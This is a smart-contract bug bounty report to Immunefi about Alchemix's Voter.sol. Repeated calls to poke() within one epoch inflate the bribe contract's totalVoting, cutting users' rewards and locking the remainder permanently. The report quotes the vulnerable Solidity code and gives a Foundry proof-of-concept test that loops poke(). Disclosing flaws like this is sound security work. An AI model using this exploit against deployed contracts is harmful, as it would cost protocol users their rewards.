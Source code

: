
# Reward token permanent freeze due to bulk call of Poke function

Submitted on Fri May 03 2024 18:49:59 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30671

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
The poke function facilitates users to vote with the same weight for each pool in each epoch easily. The problem is that this function does not use a onlyNewEpoch modifier. As a result, an attacker could potentially call this function hundreds of times within a single epoch, and the totalVoting of bribe contract does not accurately track such actions.

## Vulnerability Details
Voting.poke function doesn't use onlyNewEpoch modifier
```
    /// @inheritdoc IVoter
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```
_vote function call _reset function and the _reset function call withdraw of Bribe contract.

```
/// @inheritdoc IBribe
    function deposit(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply += amount;
        balanceOf[tokenId] += amount;

        totalVoting += amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();
        _writeVotingCheckpoint();

        emit Deposit(msg.sender, tokenId, amount);
    }

    /// @inheritdoc IBribe
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
As you can see, in Bribe.withdraw function, totalVoting is not calcutated.
In the end, totalVoting only keeps increasing.

The totalVoting is used to calculate reward amount of a tokenId.
```
/// @inheritdoc IBribe
    function earned(address token, uint256 tokenId) public view returns (uint256) {
        if (numCheckpoints[tokenId] == 0) {
            return 0;
        }

        uint256 _startTimestamp = lastEarn[token][tokenId];

        // Prevent earning twice within an epoch
        if (block.timestamp - _bribeStart(_startTimestamp) < DURATION) {
            return 0;
        }

        uint256 _startIndex = getPriorBalanceIndex(tokenId, _startTimestamp);
        uint256 _endIndex = numCheckpoints[tokenId] - 1;

        uint256 reward = 0;
        // you only earn once per epoch (after it's over)
        Checkpoint memory prevRewards; // reuse struct to avoid stack too deep
        prevRewards.timestamp = _bribeStart(_startTimestamp);
        uint256 _prevSupply = 1;

        if (_endIndex >= 0) {
            for (uint256 i = _startIndex; i <= _endIndex; i++) {
                Checkpoint memory cp0 = checkpoints[tokenId][i];
                uint256 _nextEpochStart = _bribeStart(cp0.timestamp);
                // check that you've earned it
                // this won't happen until a week has passed
                if (_nextEpochStart > prevRewards.timestamp) {
                    reward += prevRewards.balanceOf;
                }

                if (_startIndex == _endIndex) break;

                prevRewards.timestamp = _nextEpochStart;
                _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes;

                // Prevent divide by zero
                if (_prevSupply == 0) {
                    _prevSupply = 1;
                }
                prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
            }
        }

        Checkpoint memory cp = checkpoints[tokenId][_endIndex];
        uint256 _lastEpochStart = _bribeStart(cp.timestamp);
        uint256 _lastEpochEnd = _lastEpochStart + DURATION;
        uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;

        // Prevent divide by zero
        if (_priorSupply == 0) {
            _priorSupply = 1;
        }

        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```
## Impact Details
- Users end up receiving less rewards than what the actual voting results would entitle them to.
- The remaining reward amount is locked forever.

Unfortunately, the bribe contract does not have a function to withdraw this remaining amount.

        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BugPokePoC is BaseTest {

    function setUp() public {
        setupContracts(block.timestamp);
    }

    function testBugPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        uint256 totalVoting;
        uint256 poolWeight;

        hevm.startPrank(admin);

        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        voter.distribute();

        voter.vote(tokenId, pools, weights, 0);

        poolWeight = voter.weights(sushiPoolAddress);
        totalVoting = IBribe(bribeAddress).totalVoting();
        console.log("poolWeight", poolWeight);
        console.log("totalVoting", totalVoting);
        console.log("totalVoting / poolWeight", totalVoting / poolWeight);
        // Next epoch
        hevm.warp(block.timestamp + nextEpoch);
        voter.distribute();


        // An attacker can call poke function more than 100 times on one tx,
        // and all users will receive less reward than the actual reward value they deserve.
        // The rest of the reward token will be locked in the bribe contracts forever.
        for (uint256 i = 0; i < 5; i++) {
            voter.poke(tokenId);

            poolWeight = voter.weights(sushiPoolAddress);
            totalVoting = IBribe(bribeAddress).totalVoting();
            console.log("poke", poolWeight);
            console.log("totalVoting", totalVoting);
            console.log("totalVoting / poolWeight", totalVoting / poolWeight);
        }
    }
}
```